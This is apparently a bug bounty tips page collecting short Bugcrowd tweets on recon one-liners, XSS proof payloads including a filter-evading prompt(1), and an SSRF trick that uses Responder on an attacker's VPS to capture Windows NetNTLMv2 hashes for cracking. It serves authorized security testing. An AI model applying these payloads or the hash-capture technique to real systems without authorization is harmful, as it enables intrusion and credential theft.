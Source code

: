 # 🔄 Technical Process

A curated list of technical/process tips that will level up your bounty game. For more, head [back to the main page](./README.md).

## Quick wordlist creation

Source: https://twitter.com/Bugcrowd/status/1362627992036519940

```
A quick one-liner that will gather + crawl all subdomains, then convert to a custom wordlist unique to that organisation based on discovered URLs!

subfinder -d bugcrowd[.]com -silent | httpx -silent | hakrawler -plain | tr "[:punct:]" "\n" | sort -u
```

## Dumping URLs with regex

Source: https://twitter.com/Bugcrowd/status/1364809861964451849

```
Looking to quickly dump URLs from a webpage using curl and some regex magic!? Try: 

curl -s https://www.bugcrowd[.]com | pcregrep -o "(http:\/\/|https:\/\/).*?(?=\"|'| )" | sort -u
```

## alert(1) -> alert(document.domain)

Source: https://twitter.com/Bugcrowd/status/1367346572858695681

```
When you find an XSS, at minimum, use alert(document.domain) over alert(1). This helps to demonstrate the context that the JavaScript is executing in. Even better, escalate the XSS to perform an account takeover!
```

## prompt(1) -> alert(1) 

```
When testing for Xss use prompt(1) instead of alert(1) as most of the companies have filters to block "alert" Better chance of Finding an xss just by smple manupulation in codes
```

## SSRF -> Password Hashes

Source: https://twitter.com/Bugcrowd/status/1368320520526180355

```
If you ever find a SSRF on a Windows box, try running http://responder.py on your own VPS, then send the SSRF to file://<yourvps>. With a bit of luck, the server will send you some tasty Windows NetNTLMv2 hashes to crack!
```
